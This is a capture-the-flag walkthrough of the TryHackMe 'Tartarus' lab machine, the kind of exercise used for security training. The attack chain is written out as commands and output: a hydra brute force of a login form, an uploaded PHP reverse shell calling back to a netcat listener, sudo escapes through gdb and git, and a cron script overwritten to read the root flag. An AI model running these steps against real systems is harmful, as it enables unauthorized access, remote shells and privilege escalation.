

# Tartarus

[Tartarus](https://tryhackme.com/room/tartaraus) is beginner box. This box involves a lot of interesting things including horizontal and vertical privilege escalation, changing shells as well as popping reverse shell.


### Initial Foothold

The first thing post deploying the machine that we can do is visit the IP address and check for any information that we can use.


We can see a default Apache page and nothing else. Also, we ca go one step further and check it's source code but even over there we can't find any useful information. So, we can move on and run an nmap scan along with a directory bruteforce attack.

```
tester@kali:~/Downloads/tartarus$ nmap -A 10.10.39.48
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-20 16:05 IST
Nmap scan report for 10.10.39.48
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.91.135
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.75 seconds
```

From the nmap scan, we ca see that FTP is open that too with anonymous login enabled. We can immediately go and check if we can find something over there.

```
tester@kali:~/Downloads/tartarus$ ftp 10.10.39.48
Connected to 10.10.39.48.
220 (vsFTPd 3.0.3)
Name (10.10.39.48:tester): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> mget test.txt
mget test.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for test.txt (17 bytes).
226 Transfer complete.
17 bytes received in 0.00 secs (134.9720 kB/s)
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
-rw-r--r--    1 ftp      ftp            14 Jul 05 21:45 yougotgoodeyes.txt
226 Directory send OK.
ftp> mget yougotgoodeyes.txt
mget yougotgoodeyes.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for yougotgoodeyes.txt (14 bytes).
226 Transfer complete.
14 bytes received in 0.00 secs (76.3792 kB/s)
ftp> 
```

Here, right in front of us we can see a file named `test.txt` which we can easily download using `mget`. Also, there is one odd directory present over here which is `...`. Usually, `.` is for current directory and `..` is for the parent directory but there is nothing like `...`, so we can go and check that directory. Going further in that directory we can find a file named `yougotgoodeyes.txt`, we can download this as well with the same `mget` command.

```
tester@kali:~/Downloads/tartarus$ cat test.txt 
vsftpd test file
tester@kali:~/Downloads/tartarus$ cat yougotgoodeyes.txt 
/sUp3r-s3cr3t
```

The `'text.txt` was not of help but the other txt file gave us a hint on a hidden diretory `/sUp3r-s3cr3t`. We can go and check what is present over there.


We can see that a login page is hosted over here. We can try some basic SQLi attack as well as check it's source-code for some sort of information leakage but we can't find anything useful over here. Meanwhile, our directory bruteforce attack would've been completed.

```
tester@kali:~/Downloads/tartarus$ dirb http://10.10.39.48

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Sep 20 16:05:23 2020
URL_BASE: http://10.10.39.48/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.39.48/ ----
+ http://10.10.39.48/index.html (CODE:200|SIZE:11321)                                                                    
+ http://10.10.39.48/robots.txt (CODE:200|SIZE:83)                                                                       
+ http://10.10.39.48/server-status (CODE:403|SIZE:276)                                                                   
                                                                                                                         
-----------------
END_TIME: Sun Sep 20 16:17:49 2020
DOWNLOADED: 4612 - FOUND: 3
```

And we can see that `robots.txt` file was detected. So, can go there and check if some information is available over there.

```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep
```

We can see that `/admin-dir` has been disallowed but for the robots we can definitely and check it out. 


We can see there are two files, `userid` and `credentials.txt`. We can open them and save both the files. It appears that `userid` contains a list of usernames and `credentials.txt` contains a list of passwords. We can use these files along with hydra to bruteforce login on the `/sUp3r-s3cr3t` login page. 

While trying to login with default credentials and SQLi attacks, I observed that the requests were taking me to `sUp3r-s3cr3t\authenticate.php`. Hence, we must use this path to perform the bruteforce attack.

```
tester@kali:~/Downloads/tartarus$ hydra -L userid -P credentials.txt 10.10.39.48 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-20 16:28:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1313 login tries (l:13/p:101), ~83 tries per task
[DATA] attacking http-post-form://10.10.39.48:80/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect
[80][http-post-form] host: 10.10.39.48   login: ****   password: ************
[STATUS] 1153.00 tries/min, 1153 tries in 00:01h, 160 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-20 16:29:30
```

In the above hydra command, we have used the `userid` file for bruteforcing usernames using the switch `-L` and the `credentials.txt` for passwords using the switch `-P`. For specifying that we are bruteforcing a login page, we have used `http-post-form` and passed on our authentication page's path and other parameters. The `Incorrect*` helps to filter out those requests that returned either `Incorrect username` or `Incorrect password` and we get the only correct credential pair in the output.

We can now use these credentials to login on the page.



Here, we can upload a file and as this is apache based we can search on the internet for `php reverse shell` files and use them to gain access to the machine. Once such file can be found [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). All we need to do is make some changes to this file and we are ready to go.

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.x.x.x';  // CHANGE THIS
$port = 9090;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;
```

Here, we need to enter our local IP address on which we intend to get the reverse shell connection. Also, we can change the `$shell` to get a shell that we want. Here, I have changed `/bin/sh` to `/bin/bash`.

Once, we upload this file we need to open it but we don't know where it is stored. So, we can run a directory bruteforce attack on the `/sUp3r-s3cr3t` directory.

```
tester@kali:~/Downloads/tartarus$ dirb http://10.10.39.48/sUp3r-s3cr3t

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Sep 20 16:43:16 2020
URL_BASE: http://10.10.39.48/sUp3r-s3cr3t/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.39.48/sUp3r-s3cr3t/ ----
==> DIRECTORY: http://10.10.39.48/sUp3r-s3cr3t/images/                                                                   
+ http://10.10.39.48/sUp3r-s3cr3t/index.html (CODE:200|SIZE:732)                                                         
                                                                                                                         
---- Entering directory: http://10.10.39.48/sUp3r-s3cr3t/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Sep 20 16:56:03 2020
DOWNLOADED: 4612 - FOUND: 1
```

Here, we can see a sub-directory named `images` has been detected. We can go and check it out. 


Over there, we can see another sub-directory named `uploads` which contains our uploaded file `re.php`. Now, all that we need to do is start a listener using `netcat` on our machine using the command `nc -nvlp 9090` and open the file `re.php`.

```
tester@kali:~/Downloads/tartarus$ nc -nvlp 9090
listening on [any] 9090 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.39.48] 52454
Linux ubuntu-xenial 4.4.0-184-generic #214-Ubuntu SMP Thu Jun 4 10:14:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:31:34 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1315): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu-xenial:/$ whoami

www-data
www-data@ubuntu-xenial:/$ pwd
/
```

We can go to `/home` directory and see the different users on the machine. 

```
www-data@ubuntu-xenial:/$ cd /home
www-data@ubuntu-xenial:/home$ ls -la
a
total 20
drwxr-xr-x  5 root      root      4096 Jul  5 21:45 .
drwxr-xr-x 24 root      root      4096 Sep 20 10:28 ..
drwxr-xr-x  2 root      root      4096 Jul  5 21:35 cleanup
drwxr-xr-x  2 d4rckh    d4rckh    4096 Jul  5 21:35 d4rckh
drwxr-xr-x  2 thirtytwo thirtytwo 4096 Jul  5 21:38 thirtytwo
```

We can try to check files in each of these directories.

```
www-data@ubuntu-xenial:/home$ cd d4rckh

www-data@ubuntu-xenial:/home/d4rckh$ ls -la
total 16
drwxr-xr-x 2 d4rckh d4rckh 4096 Jul  5 21:35 .
drwxr-xr-x 5 root   root   4096 Jul  5 21:45 ..
-rwxrwxrwx 1 root   root    129 Jul  5 21:45 cleanup.py
-rw-r--r-- 1 d4rckh d4rckh   33 Jul  5 21:45 user.txt
www-data@ubuntu-xenial:/home/d4rckh$ cat user.txt
```

And in the user `d4rckh`'s we can find our `user.txt` flag. 

### Privilege Escalation

We can move on to user `cleanup`'s directory now:

```
www-data@ubuntu-xenial:/home/d4rckh$ cd ../cleanup

www-data@ubuntu-xenial:/home/cleanup$ ls -lala
total 8
drwxr-xr-x 2 root root 4096 Jul  5 21:35 .
drwxr-xr-x 5 root root 4096 Jul  5 21:45 ..

```

But we can't find anything over here. We can also check user `thirtytwo`'s directory:

```
www-data@ubuntu-xenial:/home/cleanup$ cd ../thirtytwo

www-data@ubuntu-xenial:/home/thirtytwo$ ls -la
la
total 16
drwxr-xr-x 2 thirtytwo thirtytwo 4096 Jul  5 21:38 .
drwxr-xr-x 5 root      root      4096 Jul  5 21:45 ..
-rw------- 1      1002      1002   56 Jul  5 21:39 .bash_history
-rwxr-xr-x 1 root      root       143 Jul  5 21:45 note.txt
www-data@ubuntu-xenial:/home/thirtytwo$ cat note.txt 

Hey 32, the other day you were unable to clone my github repository. 
Now you can use git. Took a while to fix it but now its good :)

~D4rckh

```

Here, we can see a note from `d4rckh` that user `thirtytwo` can run the command `git` with `d4rckh`'s privilege level. So, for that we need to first check which commands do we have access to using the command `sudo -l`.

```
www-data@ubuntu-xenial:/home$ sudo -l

Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```

Not as `sudo`, but we can run the command `/var/www/gdb` as user `thirtytwo`. We can look for `gdb` command in [GTFOBins](https://gtfobins.github.io/) and find a `sudo` command for the same over there that we can modify a bit and use.

```
sudo /var/www/gdb -nx -ex '!sh' -ex quit
```

But this command didn't work because with `sudo` we try to run the command as `root`. But from `sudo -l` we can see that we are allowed to run this command as user `thirtytwo` and not `root`. So, we need to use the command:

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

And then we get the shell as user `thirytwo`:

```
www-data@ubuntu-xenial:/home$ sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit                  

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
whoami
thirtytwo
```

Now, we can check the commands that user `thirtywo` can run: 

```
sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```

As we found in the note, we can run the `git` command as user `d4rckh` now. So, we can again go to [GTFOBins](https://gtfobins.github.io/) and look for exploit related to `git`.  The one that works from the sudo exploits mentioned there after modification are:

```
sudo -u d4rckh /usr/bin/git -p help config
!/bin/sh
```

We can run these commands as user `thirtytwo` and get access to `d4rckh`'s shell but before that we need to get into a `bash` shell which we get using a python command:

```
python -c 'import pty; pty.spawn("/bin/bash")'
thirtytwo@ubuntu-xenial:~$
```

Now, we can try to run the `git` command as `d4rckh`.

```
thirtytwo@ubuntu-xenial:~$ sudo -u d4rckh git -p help config

WARNING: terminal is not fully functional
		RETURN)!/bin/sh
!/bin/sh
$ whoami

d4rckh
```

We can again get a `bash` shell using the same python command used above for user `d4rckh`. In his directory we can see a python script named `cleanup.py` which can be executed as root. 

```
d4rckh@ubuntu-xenial:/home/d4rckh$ ls -la
total 16
drwxr-xr-x 2 d4rckh d4rckh 4096 Jul  5 21:35 .
drwxr-xr-x 5 root   root   4096 Jul  5 21:45 ..
-rwxrwxrwx 1 root   root      4 Sep 20 12:06 cleanup.py
-rw-r--r-- 1 d4rckh d4rckh   33 Jul  5 21:45 user.txt
```

We can modify the content of this file to run a command to store the root flag in tmp directory. First, we need to creat a blank file in `/tmp` and give access of that file to others as well.

```
d4rckh@ubuntu-xenial:/home/d4rckh$ cd /tmp
d4rckh@ubuntu-xenial:/tmp$ touch key

d4rckh@ubuntu-xenial:/tmp$ chmod 777 key

d4rckh@ubuntu-xenial:/tmp$ ls -la
total 28
drwxrwxrwt  7 root   root   4096 Sep 20 12:10 .
drwxr-xr-x 24 root   root   4096 Sep 20 10:28 ..
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .ICE-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .Test-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .X11-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .XIM-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .font-unix
-rwxrwxrwx  1 d4rckh d4rckh    0 Sep 20 12:10 key
```

 Now, we can change the code in `cleanup.py` as:

copying and pasting the following in the shell:

```
echo '
import os
import sys 

os.system("cat /root/root.txt > /tmp/key")' > cleanup.py
```

We can check if this has been properly added to the `cleanup.py` file.

```
d4rckh@ubuntu-xenial:/tmp$ cd /home/d4rckh

d4rckh@ubuntu-xenial:/home/d4rckh$ echo '
import os
import sys 

os.system("cat /root/root.txt > /tmp/key")' > cleanup.pyecho '
d4rckh@ubuntu-xenial:/home/d4rckh$ cat cleanup.py


import os
import sys 

os.system("cat /root/root.txt > /tmp/key")
```

Now, as this file is being run by the `cron`. It'd automatically get executed in sometime and the flag would get written in the `/tmp/key` file.

```
d4rckh@ubuntu-xenial:/tmp$ cat key
```

And we get our root flag as well. So, with this we have completed the Tartarus room!


### Links Referred

1. TryHackMe-Tartarus: https://tryhackme.com/room/tartaraus
2. GTFOBins: https://gtfobins.github.io/


